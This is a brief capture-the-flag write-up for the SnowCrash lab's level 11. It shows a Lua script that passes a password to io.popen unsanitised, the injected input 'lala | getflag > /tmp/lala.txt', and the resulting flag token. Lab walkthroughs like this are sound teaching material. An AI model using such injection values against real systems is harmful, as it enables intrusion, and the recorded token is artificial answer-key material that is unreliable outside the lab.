 This one was quite simple, we get a .lua file that we extract to read it.
After a little bit of time, we saw that 
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
was not very secure. 

So we tried to inject some commands here : lala | getflag > /tmp/lala.txt

This gave us the token : fa6v5ateaw21peobuub8ipe6s

/*********************************************************\

flag11@SnowCrash:~$ getflag 
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

\*********************************************************/
